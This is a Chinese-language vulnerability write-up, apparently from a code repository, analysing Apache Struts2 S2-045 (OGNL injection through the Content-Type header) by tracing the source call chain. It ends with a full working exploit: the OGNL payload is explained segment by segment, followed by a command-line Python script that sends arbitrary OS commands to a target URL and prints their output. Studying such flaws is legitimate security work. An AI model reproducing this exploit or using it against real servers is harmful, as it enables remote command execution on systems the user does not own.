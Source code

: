 ﻿## Struts2 045 漏洞分析
### 目录
- 基础知识
- Struts2 045 源码分析
- exp

由于对JAVA和Struts都不熟悉，所以在分析过程当中很多转换都不理解，只能理清代码运行过程。
### 1.基础知识
#### 1. 什么是Struts？

一套用于创建企业级Java Web 应用的开源MVC框架。

#### 2. 什么是Struts2 045漏洞？

Struts2 045漏洞是由于异常处理函数对Content-Type的内容进行ognl表达式解析，导致可以在服务器上执行任意命令。

#### 3. Struts2的处理流程

![image](https://images.seebug.org/content/images/2017/03/st2_arch.png-w331s)

从上面的流程图可以看到，

1.客户端产生一个HttpServletRequest的请求

2.请求经过一系列的过滤器（ActionContextCleanUp、SiteMesh），过滤器对所有的请求都起到作用，主要用来对请求添加，修改或者分派转发至Action处理业务逻辑。

3.FilterDispatcher（有一些是StrutsPrepareAndExecuteFilter）被调用，并询问ActionMapper来决定这个请求是否需要调用某个Action来处理这个请求。

4.然后再经过拦截器，拦截器能对配置文件中匹配的 request 进行处理，并能获取 request 当中的上下文环境及数据。

5.最后将结果返回。
#### 4. 什么是OGNL？
OGNL是Object-Graph Navigation Language的缩写，它是一种功能强大的表达式语言（Expression Language，简称为EL），通过它简单一致的表达式语法，可以存取对象的任意属性，调用对象的方法，遍历整个对象的结构图，实现字段类型转化等功能。

在Struts2中，使用Ognl表达式作为字符串与对象之间转换的一种实现，通过Ognl表达式可以轻松做到String与Object之间的沟通。

### 2.Struts2 045 源码分析
从前面的分析可以知道，

查看web.xml文件配置可以看到拦截请求的过滤器是StrutsPrepareAndExecuteFilter：
![image](./pic/webxml.png)


接下来这个类会执行doFilter()方法，并且执行prepare.wrapRequest调用，因此跳转到PrepareOperations类，可以看到再次调用dispatcher.wrapRequest方法：
![image](C:/Users/博智/Desktop/pic/PrepareOperations.png)

在这个方法中，可以看到这里先获取ContenType，判断是否包含multipart/form-data，这也就是后面我们要在ognl表达式中包含multipart/form-data的原因。然后会去new一个MultiPartRequestWrapper对象，
![image](C:/Users/博智/Desktop/pic/dispatcher.png)

然后在MultiPartRequestWrapper的构造函数中，会调用multi.parse方法，在这里multi=multiPartRequest，会调用JakartaMultiPartRequest类中的parse方法。
![image](C:/Users/博智/Desktop/pic/MultiPartRequestWrapper.png)

在parse方法中调用了processUpload方法，据别人的解析所说，这个方法会判断content-type是否是multipart开头，不是的话引发异常，并将content-type信息放入异常中。不过这个方法我跟踪不到。然后异常会调用buildErrorMessage函数。
![image](C:/Users/博智/Desktop/pic/JakartaMultiPartRequest.png)

接着这个函数会调用LocalizedTextUtil.findText函数：
![image](C:/Users/博智/Desktop/pic/buildErrorMessage.png)

然后搜索defaultMessage，也就是前面传进来的错误信息，可以找到最开始调用是在
getDefaultMessage函数里面：
![image](C:/Users/博智/Desktop/pic/getdefaultmessage.png)

继续跟进getDefaultMessage函数,可以发现又被TextParseUtil.translateVariables函数调用：
![image](C:/Users/博智/Desktop/pic/default.png)

注意这里的$和%，两者都能告诉执行环境 ${} 或 %{} 中的内容为ognl表达式。
![image](C:/Users/博智/Desktop/pic/char.png)

经过很多次TextParseUtil.translateVariables函数之后,错误信息传入TextParser.evaluate函数
![image](C:/Users/博智/Desktop/pic/parse.png)

最后在OgnlTextParser类中执行ognl表达式：

![image](C:/Users/博智/Desktop/pic/ognl.png)

然后再把结果一步一步返回回去，存进一个数组里，等待geterrors函数调用。
### 3. exp

exp里主要看OGNL表达式，由于对OGNL不熟悉，所以我讲一下我的理解：
```
(#Nike='multipart/form-data')
```
这个是为了满足前面对multipart/form-data包含的判断，又会触发不是以multipart/form-data开头的异常。
```
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm))))
```
通过ognl表达式静态调用获取ognl.OgnlContext的DEFAULT_MEMBER_ACCESS属性(默认是非PUBLIC的属性和方法不可访问)，并将获取的结果覆盖_memberAccess属性，这样就可以绕过SecurityMemberAccess的限制.
```
(#cmd='%s').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds))
```
这一段是判断操作系统，如果是linux，调用bash；如果是windows，调用cmd。
```
(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())
```
这一段是执行传递进来的命令，然后通过流来将命令回显内容输出。


写exp的时候发现一个问题，原先是使用requests库来发送请求，但是引发异常：

('Connection broken: IncompleteRead(0 bytes read)', IncompleteRead(0 bytes read))

查找stackoverflow给出这么一个解决办法，就是用urllib2库，同时增加异常处理，然而还是不知道e.partical是什么。
```
import urllib2
import httplib
from optparse import OptionParser

def struts(url,cmd):

    content_type="${(#Nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).\
    (#cmd='%s').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).\
    (#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"%cmd

    
    request = urllib2.Request(url)
    
    request.add_header('User-Agent',"Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0")
    request.add_header('content-type',content_type)
    
    try:
        page = urllib2.urlopen(request).read().decode('gbk')
    except httplib.IncompleteRead, e:
        page = e.partial

    print page

def main():

    parser=OptionParser()
    parser.add_option("-u",action="store",dest="url",help="url")
    parser.add_option("--cmd",action="store",dest="cmd",help="cmd")
    (options,args)=parser.parse_args()

    struts(options.url,options.cmd)

if __name__=="__main__":
    main()
```
